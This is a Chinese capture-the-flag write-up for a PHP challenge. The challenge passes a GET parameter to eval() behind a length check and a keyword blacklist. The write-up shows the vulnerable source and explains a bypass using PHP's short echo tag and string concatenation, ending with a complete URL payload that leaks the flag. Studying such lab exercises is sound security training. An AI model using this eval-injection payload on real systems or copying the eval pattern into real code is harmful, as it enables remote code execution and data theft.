

## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要逻辑代码：

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo 'Not allowed length';
    }
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo 'Not allowed keyword';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo 'What\'s going on?';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

3.发现过滤了

```php
`
()
[]
```

导致很难调用函数和命令执行随后又想能否只能打印出flag发现过滤了

```php
echo
print
require
include
```

查阅资料发现可以用以下方式绕过，直接输出比如

```php
<?=$flag='123';?>
```

可以直接得到结果：123那么我们在这题中，只要构造出`<?=$flag?>`即可立刻输出我们要的flag，而不需要再去管sha1的相等问题那么如何构造`$flag`呢？可以用拼接的方式:

```php
$a='alag';$a{0}='f';
```
于是最后的payload：

```php
http://IP:PORT/?flag=$a='alag';$a{0}='f';1111111111111111;?><?=${$a}?>
```
